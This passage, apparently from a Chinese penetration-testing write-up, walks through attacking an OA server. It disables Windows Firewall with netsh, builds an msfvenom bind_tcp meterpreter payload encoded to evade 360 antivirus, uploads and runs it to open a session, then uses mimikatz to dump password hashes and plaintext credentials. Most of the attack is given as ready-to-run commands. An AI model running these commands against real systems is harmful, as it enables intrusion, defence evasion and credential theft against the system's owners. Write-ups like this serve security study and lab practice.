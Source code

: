
4.2.3 关闭OA服务器系统自带的防火墙 

> 
- `从上面看到，OA服务器的端口开放很多。`- `但是因为防火墙的原因，导致我们代理kali扫描的时候，仅仅可以扫到80端口。`- `此时，可以使用`- `“ NetSh Advfirewall set allprofiles state off ” `- `关闭 Windows Firewall。即关闭win自带防火墙。`


为什么要关闭防火墙？ 
1. `因为一会要，msf生成木马进行正向连接OA服务器。`1. `有防火墙拦截的话，是无法上线MSF的`
通过上边的信息收集，我们得知oa服务器是开启445端口的。正常代理nmap探测一下

关闭状态，我们使用命令“ NetSh Advfirewall set allprofiles state off ”来关闭防火墙 

再次对目标进行探测 

4.2.4 免杀360全家桶上线MSF 

`生成正向连接 shellcode。命令：`

> 

- `“ msfvenom -p windows/meterpreter/bind_tcp LPORT=6666 -e x86/shikata_ga_nai -i 15 -f csharp -o payload_bind.txt ”`


继续使用掩日免杀 

`这里生成的木马可能会被查看，也可能不会。`

`一般可以使用“ curl http://www.baidu.com ”命令，`

`来查看服务器是否出网，不出网的话，360全家桶也行很久都没有更新。`

`这里就直接将生成的木马上传`

先在oa服务器上执行 

然后MSF中进行配置设置 

运行，得到会话 

4.2.5 获取OA服务器的哈希明文 

`查看权限是system之后，就迁移进程抓取哈希先，`

`这个进程若是迁移到非system之中。`

`可能就会dump不出hash`

`加载mimikatz，使用`

`“ mimikatz_command -f sekurlsa::searchPasswords ”`

`或者“ msv ”抓取明文。`

**注意： **

`这里还不能直接使用`

`“ mimikatz_command -f sekurlsa::searchPasswords ”，`

`使用目标服务器存在360，加载猕猴桃之后，`

`使用此功能抓取密码会被直接拦截。`
